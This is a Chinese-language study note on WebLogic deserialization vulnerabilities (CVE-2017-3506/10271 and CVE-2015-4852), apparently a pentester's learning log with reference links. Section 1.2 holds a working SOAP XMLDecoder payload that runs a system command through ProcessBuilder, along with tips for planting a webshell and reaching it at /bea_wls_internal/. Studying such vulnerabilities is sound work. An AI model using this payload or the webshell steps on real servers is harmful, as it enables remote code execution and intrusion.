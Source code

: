 # WebLogic 中间件漏洞

## 1. CVE-2017-3506 和 CVE-2017-10271 XMLDecoder 反序列化漏洞（版本：12.1.3.0）

### 1.1 参考文献

1. 主要可以参考下面两篇：

    > https://blog.csdn.net/he_and/article/details/90582262
    >
    > https://zhuanlan.zhihu.com/p/32301092
    >
    > https://www.freebuf.com/articles/web/272835.html

### 1.2 补充

1. 通过 POST 发包，虽然页面会报错，但是结果依旧可以正常执行：
    ![image-20230518143539966](WebLogic/image-20230518143539966.png)

2. 弹出计算机的 PoC：
    ```xml
    <soapenv:Envelope
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Header>
            <work:WorkContext
                xmlns:work="http://bea.com/2004/06/soap/workarea/">
                <java>
                    <object class="java.lang.ProcessBuilder">
                        <array class="java.lang.String" length="3">
                            <void index="0">
                                <string>cmd</string>
                            </void>
                            <void index="1">
                                <string>/c</string>
                            </void>
                            <void index="2">
                                <string>calc</string>
                            </void>
                        </array>
                        <void method="start"/>
                    </object>
                </java>
            </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
    </soapenv:Envelope>
    ```

    注意缩进，可以使用 xml 格式工具进行格式规则化。

3. 写马的话，它需要文件路径：
    ![image-20230518145602040](WebLogic/image-20230518145602040.png)
    这个路径不知道怎么获得，如果能获得的话就能写入。写入之后通过访问：
    `/bea_wls_internal/马`即可。

4. 根据不同的版本，它的路径可能不同。如果是 10 版本，可能是 `/wls-wsat/`

## 2. CVE-2019-2725 todo

## 3. CVE-2015-4852 反序列化漏洞

### 3.1 参考

1. 链接如下：

    > https://bleke.top/posts/754158022/

2. 有关 T3 协议的：

    > https://www.cnblogs.com/nice0e3/p/14201884.html

### 3.2 补充

1. 本质上用的就是 CC1 链。应该是通过 t3 协议，将链发送到 7001 端口然后触发链。

